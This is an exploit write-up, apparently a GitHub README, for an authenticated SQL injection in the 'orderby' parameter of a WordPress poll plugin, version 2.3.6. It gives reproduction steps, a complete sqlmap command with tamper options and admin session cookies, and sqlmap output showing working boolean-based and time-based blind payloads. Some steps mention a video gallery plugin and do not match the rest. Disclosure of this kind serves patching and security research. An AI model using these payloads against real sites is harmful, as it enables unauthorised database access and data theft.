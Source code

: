 ### Exploit Title: WordPress Poll Plugin SQL Injection 
### Date: 2024-07-06
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor Homepage: https://total-soft.com/wp-poll/
### Version 2.3.6

## Steps to Reproduce:

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Poll` > `Create Pool` > `Use Theme` and save it.
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll-builder&tsp-id=1`

2. After saving, navigate back to `TS Video Gallery` and click the title:
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc`

3. Search for the `orderby` parameter.

<img alt="Result" src="https://raw.github.com/capture0x/Poll-Plugin-SQL-Injection-/main/1.png">


## SQLMAP Command:

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc" \
--batch \
--dbms=mysql \
--thread=10 \
--no-cast \
--random-agent \
-v 3 \
--tamper="between,randomcase,space2comment" \
--level=5 \
--risk=3 \
-p orderby \
--cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|e111b736b22043864d0f8ea6da823ca00768a110af4da612c555add1979839d1; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|173622110c7f3812695b26c96ba4905a7c760ac41e37645150dd4869ae884c4b; wordpress_test_cookie=WP Cookie check; wp-settings-time-1=1720266472"

---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---

<img alt="Result" src="https://raw.github.com/capture0x/Poll-Plugin-SQL-Injection-/main/2.png">
